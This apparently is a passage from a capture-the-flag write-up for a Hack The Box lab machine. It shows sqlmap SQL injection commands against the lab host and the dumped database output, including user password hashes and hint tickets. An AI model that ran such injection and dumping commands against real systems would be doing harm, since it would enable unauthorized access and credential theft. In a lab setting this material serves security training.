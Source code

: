 sqlmap --batch -u "http://os.htb/users/admin*" --level 5 --risk 3

-u url also for get request

--batch run default yes

--* = the parameter to fuzz

![sqlinjection2](https://chickenpwny.github.io/images/oz/sqlinjection2.PNG)

I do love to watch sqlmap scroll down the screen. 

sqlmap --batch -u "http://os.htb/users/admin*" --level 5 --risk 3 --dump



```
Database: ozdb      
Table: users_gbw             
[6 entries]                                                                                                                                         
+----+-------------+----------------------------------------------------------------------------------------+                                       
| id | username    | password                                                                               |                                       
+----+-------------+----------------------------------------------------------------------------------------+                                       
| 1  | dorthi      | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 |                                       
| 2  | tin.man     | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk |                                       
| 3  | wizard.oz   | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY |                                       
| 4  | coward.lyon | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY |                                       
| 5  | toto        | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg |                                       
| 6  | admin       | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ |       

Database: ozdb
Table: tickets_gbw
[12 entries]
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| id | name     | desc                                                                                                                           |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| 1  | GBR-987  | Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.                                                              |
| 2  | GBR-1204 | Where did all these damn monkey's come from!?  I need to call pest control.                                                    |
| 3  | GBR-1205 | Note to self: Toto keeps chewing on the curtain, find one with dog repellent.                                                  |
| 4  | GBR-1389 | Nothing to see here... V2hhdCBkaWQgeW91IGV4cGVjdD8=                                                                            |
| 5  | GBR-4034 | Think of a better secret knock for the front door.  Doesn't seem that secure, a Lion got in today.                             |
| 6  | GBR-5012 | I bet you won't read the next entry.                                                                                           |
| 7  | GBR-7890 | HAHA! Made you look.                                                                                                           |
| 8  | GBR-7945 | Dorthi should be able to find her keys in the default folder under /home/dorthi/ on the db.                                    |
| 9  | GBR-8011 | Seriously though, WW91J3JlIGp1c3QgdHJ5aW5nIHRvbyBoYXJkLi4uIG5vYm9keSBoaWRlcyBhbnl0aGluZyBpbiBiYXNlNjQgYW55bW9yZS4uLiBjJ21vbi4= |
```